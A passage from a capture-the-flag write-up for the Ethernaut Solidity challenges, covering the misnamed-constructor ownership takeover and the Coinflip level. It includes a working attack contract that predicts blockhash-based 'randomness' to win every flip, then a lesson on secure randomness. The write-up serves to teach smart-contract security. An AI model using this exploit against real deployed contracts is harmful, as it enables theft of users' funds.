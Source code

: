 To become the owner, we just call the `Fal1out` function.

```
await contract.Fal1out({value: 1437});
```

A real world example for this is the famous rubixi hack, cause originally it was called DynamicPyramid but the contract name was changed before deployment to Rubixi. The constructor's name wasn't changed, allowing any user to become the creator.

## 3. Coinflip

We learn some cool things in this challenge. Like, how _not_ to introduce randomness into our Smart Contracts.

The goal of this level is to guess the `side` correctly 10 times in a row. The chance of this happening is 0.5^10 or 0.0009765625% which _might_ happen but very very unlikely. Luckily for us, the contract has a flaw with their flipping algorithm, specifically relying on `block.number` as a form of randomness.
Note that generating randomness in computing is generally difficult (if not impossible). It's even more difficult in Smart Contracts because everyone can read our contract code (provided we've published the source code which we will always be expected to do).
So someone with the wrong intent or smart as some would say can always calculate the correct answer if they run the same algorithm in their attack function before calling your flip function.
If we deploy the following contract on remix and call the `attack` function, we can take over the victim contract.

```
pragma solidity ^0.8.0;

contract CoinflipAttack {
    address victim = 0x9010BCEbf802A031eabB52B22F3ec1331D923bBd;
    uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

    function attack() public {
        // Below is the same algorithm that is used by the victim contract
        // We calculate the value for side before calling the victim contract.
        // Note that will always be correct since both functions are called in the same block.
        uint256 blockValue = uint256(blockhash(block.number - 1));
        uint256 coinFlip = blockValue / FACTOR;
        bool side = coinFlip == 1 ? true : false;

        // Normally we would use import the contract here so that we can call the function directly, but this works as well.
        // This approach is useful for when we don't have access to the source code of the contract we want to interact with.
        bytes memory payload = abi.encodeWithSignature("flip(bool)", side);
        (bool success, ) = victim.call{value: 0 ether}(payload);
        require(success, "Transaction call using encodeWithSignature is successful");
    }
}
```

MAIN LESSON FROM CHALLENGE:
If there is a need to introduce randomness into our contract, we use a decentralized oracle to compute random numbers or atleast any legit external source to the blockchain, cause all transactions on the Ethereum blockchain are deterministic state transition operations, meaning that every transaction modifies the ecosystem in a calculable way this eventually means that there is no source of entropy or randomness within the blockchain ecosystem. That's because there's no native way in Solidity to generate a random number. And everything you write in a Smart Contract is publicly visible, including local and state variables marked as private.
